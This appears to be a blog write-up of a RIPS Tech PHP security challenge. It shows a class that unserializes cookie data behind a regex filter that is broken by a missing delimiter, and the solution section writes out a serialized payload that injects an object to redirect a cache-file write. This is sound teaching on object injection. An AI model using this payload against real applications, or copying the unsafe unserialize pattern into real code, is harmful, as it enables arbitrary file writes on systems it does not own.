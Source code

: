 ```yaml
---

title: rips-58
author: raxjs
tags: [php]

---
```


Welcome back cachefile.

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1169997998924980224" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
           && !preg_match('/O:\d:\/', $data)) {
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

new Template($_COOKIE['data']);

{{< /code >}}

# Solution
{{< code language="php" highlight="7,14,16,40" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
class Template {
    public $cacheFile = '/tmp/cachefile';
    public $template = '<div>Welcome back %s</div>';

    public function __construct($data = null) {
		// 2) user input $data
        $data = $this->loadData($data);
        $this->render($data);
    }

    public function loadData($data) {
        if(substr($data, 0, 2) !== 'O:'
			// 3) this can be bypassed with ['name' => 'f00', 'obj' => new Template(...)]
           && !preg_match('/O:\d:\/', $data)) {
			// 4) user controlled data into unserialize
            return unserialize($data);
        }
        return [];
    }

    public function createCache($file = null, $tpl = null) {
        $file = $file ?? $this->cacheFile;
        $tpl= $tpl ?? $this->template;
        file_put_contents($file, $tpl);
    }

    public function render($data) {
        echo sprintf(
            $this->template,
            htmlspecialchars($data['name'])
        );
    }

    public function __destruct() {
        $this->createCache();
    }
}

// 1) user input from cookie
new Template($_COOKIE['data']);


// example:
$x = 'a:1:{s:4:"name";s:3:"f00";}';
//$o = ['name' => 'f00', 'obj' => new Template($x)];
//echo serialize($o);
$payload = 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}';
//                                                                                                    ^
//                                                                                                    |
//                                                                                            change file name

var_dump(preg_match('/O:\d\/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
//                        ^
//                        |
// PHP Warning:  preg_match(): No ending delimiter '/' found in php shell code on line 1
// bool(false)

var_dump(preg_match('/O:\d/', 'a:2:{s:4:"name";s:3:"f00";s:3:"obj";O:8:"Template":2:{s:9:"cacheFile";s:15:"/tmp/cachefile2";s:8:"template";s:26:"<div>Welcome back %s</div>";}}'));
// int(1)

{{< /code >}}

